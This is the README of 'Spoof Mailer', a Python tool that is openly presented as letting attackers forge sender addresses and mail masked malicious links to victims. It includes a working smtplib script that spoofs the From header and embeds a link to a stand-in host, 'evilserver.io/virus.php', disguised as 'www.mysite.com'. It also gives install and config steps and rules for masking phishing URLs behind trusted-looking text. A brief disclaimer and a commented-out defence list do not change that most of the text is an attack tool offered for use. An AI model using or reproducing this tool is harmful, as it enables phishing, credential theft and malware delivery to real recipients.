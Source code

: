 ![GPLv3 License](https://img.shields.io/badge/License-GPL%20v3-yellow.svg) 

# **Spoof Mailer v[2.0]**
<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof.png) -->
![Spoof-Mailer v2.7](spoof.png)

**Spoof Mailer**, a python-based utilized program aid as **Email spoofing tool** that enable attackers to simply craft an email message with a malicious link and send them to a large (or small) number of victims.

 This  email message sent may appears to come from trusted source, aiming to trick their victims into revealing sensitive information, open a malicious attachment, or prompt in clicking a malicious link that will direct their victims to malicious website:-
- Either to prompt their victims into revealing sensitive information (e.g Login Credential, Credit Card Details).
- Or to automatically download a malicious file (e.g Trojans, Rootkits, Keylogger, or Backdoor) on their victim's device.


## **Email spoofing Technique**
Email spoofing is a type of cybercrime where an attacker sends an email that appears to come from a legitimate source, such as a trusted company or individual, but is actually sent from a different email address. The goal of email spoofing is to trick the recipient into divulging sensitive information, clicking on a malicious link, or opening a malicious attachment.

## **Examples of email spoofing:**
- Phishing emails that appear to come from a bank or online retailer, asking you to enter login credentials or financial information.
- Spam emails that appear to come from a popular online service, such as Amazon or PayPal, asking you to update your account information.
- Malware emails that appear to come from a colleague or friend, containing a malicious attachment or link.

## **Spoof Mailer can be done by:**
This can be done by just modifying email headers:-
1. **Sender Address Spoofing**: Forging the "`From`" address to make it appear as if the email comes from a legitimate source.
2. **Display Name Spoofing**: Using a legitimate-sounding display name to make the email appear more authentic.
In order to make it appear as if the email came from a different server or domain.

## **Sample Spoof Mailer Attack:**
_The below python script demonstrate how easy it is for an attacker to modify email message header and launch 
an email spoofing attack:_
```py
import os, sys, time, smtplib								   # import smtp utilities
from email.mime.text import MIMEText			 # import email utilities
from email.mime.multipart import MIMEMultipart

mal="<a href='http://evilserver.io/virus.php'>www.mysite.com</a>"
msg=MIMEMultipart("alternative")
msg["From"]="Spoof Username <spoofAddress@gmail.com>"		    # Spoof Username and Email Address <--\
msg["To"]="victim1234@gmail.com"							                    # Victims Email Address	         			  |---> Email Headers
msg["Subject"]="Spoof Mailer v2.0"							                  # Message Subject	<------------------/
html="<center><h1>Spoof Mailer v2.0</h1></center>"			      # Message Heading   <----------------_-_--> Email Message
html+=f"<p>Click this link: {mal}, to download a file</p>"	# Message   <-----------------------/
html_part=MIMEText(html, "html")
msg.attach(html_part)

Server = smtplib.SMTP("smtp.gmail.com", 587)			      					# Connect to Gmail Server on Port 587
Server.starttls()															                          # Start Connection
Server.login("attacker33@gmail.com", "password1234")						# Attacker Login to his/her Gmail Account
Server.sendmail("attacker33@gmail.com", "victim1234@gmail.com", str(msg))	# Send Message to Victims as Spoofed User
Server.quit()																# End Connection
```

## **Spoof Mailer Installation:**
- ### **First Step: _You Gotta Install Dependencies Needed_**

If you haven't already, you can install all the necessary dependencies:

```bash
apt update && apt upgrade
apt install python3
apt install git
```

- ### **Second Step: _Then You Clone the Repository_**

```bash
git clone https://github.com/evilfeonix/Spoof-Mailer.git
cd Spoof-Mailer
```
- ### **Third Step:  _You Gotta Configure the Tool (config.ini)_**

The tool requires the configuration of the `config.ini` file before use. The configuration file allows you to specify the email provider's host and port, and also email account username and password.

The default `host` and `port` configuration in `config.ini` is set up for Gmail, but you can modify these settings to test other email providers (such as Yahoo, Outlook, etc.).

### ***Example config.ini for Spoof Mailer:***

```ini
[SMTP]
port = 465
host = smtp.gmail.com
user = <SMTP Server Username>
pass = <SMTP Server Password>

;  Modify the user and pass variable's vaule by Specifying
;  your Email Account Username and also Email Account Password
```
> **Important:** Modify the `user` and `pass` variable's vaule configuration in `config.ini` before trying to run the main script `spoof.py`. And also, if you're dealing with a different email provider, replace the `host`, `port`, `user`, and `pass` with the appropriate values.

- ### **Fourd Step: _Finally!, Run the Tool_**

After configuring the config.ini file, run the tool:
```bash
python3 spoofer.py
```

# **Spoof Mailer Usage (Ruleset)**
1. If you are writing a message and you wanted to move to the next line just hit [`ENTER`], and keep writing your message, if you feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword you to the next process.

2. If you wanted to add a link to your message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, because we dedicated a little section that going to detect the link from your message and convert it to an hyper link

3. And finally, if you wanted to mask your link with a text, which will be a little bit legit to your victim. Then you  are going to make a good use of (`>>`) symbols. Here is a quick demo: (e.g `http://fakesite.com/index.php>>www.trustedsite.com`). this is going to create an hyper link that says `www.trustedsite.com`, but when clicked, it will direct user to `http://fakesite.com/index.php`.

>**Quick Notice: Space is not required while masking URL, only this (`-`) symbol is request, which automatically represent the space**


<!-- [Spoof-Mailer v2.7](https://github.com/evilfeonix/Spoof-Mailer/blob/main/spoof1.png) -->
![Spoof-Mailer v2.1](spoof-2.1.png)


### **Important Note:**

> **If u are writing a message and u wonna move to the next line just hit [`ENTER`], and keep writing ur message, if u feel ending the message then type `#F30N1X` in a new link and hit [`ENTER`], this will finally break the input looping and forword u to the next process.**

>**If u wanna add a link to ur message just type it in it standerd form (e.g `http://example.com/index.php?msg=text`) and leave the rest to us, cause we dedicated a little section that gonna deal with this.**

>**And also, if u wanna mask the link with a text u will make used of (`>>`) symbols. Here is a quick demo: (e.g `http://www.fakesite.com/index.php>>login-to-this-site`)**

>**If u kinda like our project, just u know!.., feel free to bye us cup of tea, am just kidding, cause u owns the decision whether to do it or not**

>**But seriously!, if u fucking well found our repo so useful and u likely wanna contribute. We are welcoming u to our world!, just feel free to get in touch with us across our platforms**

>**We may be slow in responding due to what we are going throught, but that wont stop us!**

>**Please report any error if found within our repo.** 

<!-- Protection against email spoofing:

1. Verify the sender's email address and check for slight variations.
2. Be cautious of generic greetings and spelling mistakes.
3. Hover over links to see the URL before clicking.
4. Use two-factor authentication whenever possible.
5. Use anti-spam and anti-virus software.
6. Use DMARC (Domain-based Message Authentication, Reporting, and Conformance) to authenticate email senders.

Remember, email spoofing is a common tactic used by cybercriminals, and being vigilant and taking the necessary precautions can help protect you from falling victim to these types of attacks. -->

### **Support Us**

Support us by liking, forking, and sharing our repo and also follow us on [facebook.com](https://facebook.com/evilfeonix), [instagram.com](https://instagram.com/evilfeonix), and [youtub.com](https://youtub.com/@3V1LF30N1X) for latest hacking tips and tricks.

### **Disclaimer**

This tool is intended to educate you on Email Spoof Technique, how it's done, and how risk it could be when you become a victims of this technique. and also used this tool responsibly.

>_Note that we!, the creators of this tool are not responsible for any misuse or damage caused by it._

### **License**

[GNU General Public License v3.0](https://github.com/evilfeonix/Spoof-Mailer/blob/main/LICENSE) 
